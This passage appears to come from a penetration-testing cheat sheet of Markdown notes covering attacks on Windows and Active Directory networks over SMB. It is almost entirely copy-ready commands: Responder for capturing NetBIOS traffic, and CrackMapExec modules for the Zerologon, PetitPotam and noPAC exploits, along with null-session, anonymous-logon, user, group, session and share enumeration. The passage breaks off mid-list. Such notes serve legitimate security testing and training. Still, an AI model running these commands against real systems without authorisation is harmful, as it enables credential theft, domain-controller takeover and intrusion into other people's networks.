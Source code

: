 *   **Run Responder:** Intercept and capture NetBIOS session data for further analysis and exploitation.

    ```bash
    responder -I <interface> -rdwv
    ```

#### \[\[NetExec]]

#### \[\[CrackMapExec]]

*   **Zerologon:**

    ```bash
    crackmapexec smb <target_ip> -u '' -p '' -M zerologon
    ```
*   **PetitPotam:**

    ```bash
    crackmapexec smb <target_ip> -u '' -p '' -M petitpotam
    ```
*   **noPAC:** This requires credentials.

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M nopac
    ```
*   **Map network hosts:**

    ```bash
    crackmapexec smb 192.168.1.0/24
    ```
*   **Enumerate Null Sessions:**

    ```bash
    crackmapexec smb <target_ip> -u '' -p ''
    crackmapexec smb <target_ip> --pass-pol
    crackmapexec smb <target_ip> --users
    crackmapexec smb <target_ip> --groups
    ```
*   **Enumerate anonymous logon:**

    ```bash
    crackmapexec smb <target_ip> -u 'a' -p ''
    ```
*   **Enumerate active sessions:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --sessions
    ```
*   **Enumerate shares and access:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --shares
    crackmapexec smb <target_ip> -u <username> -p '<password>' --shares --filter-shares READ WRITE
    ```
*   **Enumerate disks:**
